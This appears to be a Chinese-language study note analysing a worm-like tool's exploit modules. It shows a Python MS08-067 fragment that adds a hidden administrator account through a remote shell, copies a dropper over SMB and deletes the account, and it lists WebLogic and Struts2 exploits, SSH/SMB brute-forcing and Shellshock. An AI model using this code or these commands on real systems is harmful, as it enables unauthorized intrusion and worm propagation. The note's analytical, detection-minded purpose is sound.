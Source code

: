 ```python

--------------------------------------------------------
os_version = self._windows_versions.get(self.host.os.get('version'), WindowsVersion.Windows2003_SP2) #获取目标机器版本
exploit = SRVSVC_Exploit(target_addr=self.host.ip_addr, os_version=os_version)
sock = exploit.start() #使用twisted框架写的 DECRPC 协议构造漏洞利用进行攻击
sock.send("cmd /c (net user %s %s /add) &&"
                          " (net localgroup administrators %s /add)\r\n" %
                          (self._config.ms08_067_remote_user_add,
                           self._config.ms08_067_remote_user_pass,
                           self._config.ms08_067_remote_user_add))
## 添加用户 主要为了 后面的 smb 感染
 remote_full_path = SmbTools.copy_file(self.host,
                                              src_path,
                                              self._config.dropper_target_path_win_32,
                                              self._config.ms08_067_remote_user_add,
                                              self._config.ms08_067_remote_user_pass)
 ## smb 进行蠕虫感染

 sock.send("net user %s /delete\r\n" % (self._config.ms08_067_remote_user_add,))
    
 ##感染后删除用户
```

#采用snort 流量进行检测

##### 3.weblogic

[weblogic CVE-2017-10271 反序列化漏洞利用](https://github.com/kkirsche/CVE-2017-10271)

针对性的对 weblogic的反序列化漏洞进行了攻击

攻击流程与以上相似，不做说明

##### 4.struts2 [资源地址](https://github.com/xsscx/cve-2017-5638)

struts 045 的利用代码

攻击流程与以上相似，不做说明

##### 5.sshexec

ssh爆破模块

##### 6.smbexec 

smb 爆破利用

##### 7.shellshock

>  Shellshock的原理是利用了Bash在导入环境变量函数时候的漏洞，启动Bash的时候，它不但会导入这个函数，而且也会把函数定义后面的命令执行。
>
> 在有些CGI脚本的设计中，数据是通过环境变量来传递的，这样就给了数据提供者利用Shellshock漏洞的机会。
>
> 简单来说就是由于服务器的cgi脚本调用了bash命令，由于bash版本过低，攻击者把有害数据写入环境变量，传到服务器端，触发服务器运行Bash脚本，完成攻击。
